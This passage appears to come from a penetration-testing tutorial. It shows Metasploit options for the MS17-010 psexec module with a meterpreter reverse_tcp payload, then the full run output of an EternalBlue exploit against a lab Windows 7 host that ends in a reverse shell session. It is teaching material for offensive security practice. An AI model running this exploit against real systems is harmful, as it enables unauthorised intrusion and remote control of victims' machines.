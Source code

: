 ```shell-session
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Once everything is set and ready to go, we can proceed to launch the attack. Note that the payload was not set here, as the default one is sufficient for this demonstration.

**MSF - Exploit Execution**

&#x20; Modules

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-13 21:37:21 +0000
```